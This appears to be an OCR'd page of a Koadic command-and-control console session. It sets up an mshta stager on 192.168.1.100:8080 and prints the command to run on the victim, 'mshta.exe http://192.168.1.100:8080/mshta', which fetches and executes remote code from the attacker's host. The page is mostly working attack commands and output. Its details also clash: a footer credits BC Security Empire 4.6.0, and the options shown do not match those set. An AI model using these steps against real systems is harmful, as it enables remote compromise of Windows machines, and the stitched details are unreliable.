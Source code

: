 ```
            (•).`   
            (   ).  
          .(___(__) 
        ,()      /
        |       /
        \      `.___.;
        |   ,   \
        |    )_  :\
    ____|_/___L__;|
     ||||||||||||
    
    .:[Koadic - COM Command & Control]:.
    
koadick >>
```

### Setting Up a Stager

First, set up a stager to deliver the initial payload:

```
koadick >> stagers

Available stagers:
    * js/mshta
    * js/regsvr
    * js/rundll32_js
    * js/bitsadmin
    * js/wmic
    * dll/regsvr32_dll

koadick >> use stagers/js/mshta

[stager/js/mshta]>> info

        Name: MSHTA
        Module: stagers/js/mshta
        Description: Serves payloads using MSHTA.exe HTML Applications

        Authors:
            - zerosum0x0
            - TheNaterz

        Options:
            Name            Required        Value         Description
            ----            --------        -------       -----------
            ENDPOINT        True           mshta          URL path to callback to
            RESTAGE_DELAY   False          0             Number of seconds to wait between re-staging
            CLASSICMODE     False          False         Disable new cyphers for older versions of .NET
            JOBNAME         False          True          Use a random alphanumeric JOBNAME
            OUT             True                         Output file

[stager/js/mshta]>> set SRVHOST 192.168.1.100
[stager/js/mshta]>> set SRVPORT 8080
[stager/js/mshta]>> set OUT /tmp/stager.hta
[stager/js/mshta]>> run

[+] Spawned a stager at http://192.168.1.100:8080/mshta
[+] Wrote stager to /tmp/stager.hta
[+] Run the following command on the victim:
mshta.exe http://192.168.1.100:8080/mshta
```

 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire